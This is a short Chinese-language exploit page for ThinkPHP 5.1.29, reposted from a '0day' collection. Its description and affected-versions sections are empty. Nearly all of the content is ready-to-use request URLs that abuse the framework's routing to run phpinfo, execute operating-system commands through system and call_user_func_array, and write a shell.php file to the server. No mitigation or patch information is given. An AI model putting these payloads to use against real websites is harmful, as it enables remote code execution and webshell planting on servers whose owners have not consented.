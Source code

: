 # Thinkphp 5.1.29

> 原文：[http://book.iwonder.run/0day/Thinkphp/11.html](http://book.iwonder.run/0day/Thinkphp/11.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 1、代码执行

```
http://www.0-sec.org/?s=index/\think\Request/input&filter=phpinfo&data=1

http://www.0-sec.org/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

http://www.0-sec.org/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1 
```

### 2、命令执行

```
 http://www.0-sec.org/?s=index/\think\Request/input&filter=system&data=操作系统命令

http://www.0-sec.org/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=操作系统命令

http://www.0-sec.org/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=操作系统命令 
```

### 3、文件写入

```
http://www.0-sec.org/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E

http://www.0-sec.org/?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E 
```

